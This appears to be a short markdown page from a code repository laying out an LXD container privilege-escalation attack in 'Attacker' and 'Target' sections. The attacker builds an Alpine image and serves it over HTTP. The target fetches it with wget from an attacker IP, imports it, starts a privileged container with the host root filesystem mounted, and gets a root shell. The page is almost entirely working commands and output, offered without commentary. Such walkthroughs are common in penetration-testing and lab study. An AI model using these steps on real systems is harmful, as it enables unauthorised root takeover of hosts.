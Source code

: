 # Attacker

## Get Image

```
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
python3 -m http.server
```
## Make image available

```
python3 -m http.server
```

# Target

$ wget http://10.8.50.72:8000/alpine-v3.12-x86_64-20200902_1515.tar.gz

$ lxc image list
+-------+-------------+--------+-------------+------+------+-------------+
| ALIAS | FINGERPRINT | PUBLIC | DESCRIPTION | ARCH | SIZE | UPLOAD DATE |
+-------+-------------+--------+-------------+------+------+-------------+

$ lxc image import ./alpine-v3.12-x86_64-20200902_1515.tar.gz --alias myimage
Image imported with fingerprint: 65dd1e31f4cc984602e9be582bf80196cd05d44531b18ad8208ce062f09105ab

$ lxc image list
+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE         |
+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
| myimage | 65dd1e31f4cc | no     | alpine v3.12 (20200902_15:15) | x86_64 | 3.04MB | Sep 2, 2020 at 1:18pm (UTC) |
+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+

$ lxc init myimage ignite -c security.privileged=true
Creating ignite

$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to ignite

$ lxc start ignite

$ lxc exec ignite /bin/sh

\# id

uid=0(root) gid=0(root)

\# cd /mnt/root/root/
